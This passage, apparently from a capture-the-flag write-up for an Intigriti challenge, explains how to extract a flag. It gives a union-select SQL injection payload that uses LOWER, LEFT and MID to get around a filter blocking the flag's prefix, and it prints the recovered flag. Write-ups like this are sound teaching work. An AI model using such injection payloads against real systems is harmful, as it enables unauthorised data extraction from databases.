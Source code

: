 ![Untitled](Writeup%20Intigriti%20challenge-0923%20e1c9e79616944cd7b87b643a50e93802/Untitled%2014.png)

> Flag: **INTIGRITI{bl4ckli5t1ng_1z_n0t_7h3_w4y}**
> 

- Another faster way is to use `LOWER` since it only checks for the `**INTEGRITI`** substring. So, simply displaying it without this substring on the screen is sufficient. That's right, using `LOWER` to convert all characters in the flag to lowercase, including the `**intergriti`** substring.

```php
1*(1)union(select(LEFT(F.4,8)),(MID(F.4,9)),(LOWER(F.4))from(select(1),(2),(3),(4)union(select*from(users)))F)
```

![Untitled](Writeup%20Intigriti%20challenge-0923%20e1c9e79616944cd7b87b643a50e93802/Untitled%2015.png)

- **However**, one noteworthy point here is that in cases where the flag contains a mixture of uppercase and lowercase characters like **`INTIGRITI{BL4CKli5t1ng_1z_n0t_7h3_W4Y}`**, using **LOWER()** might not be the best idea. But, for this specific case, it works quite well.

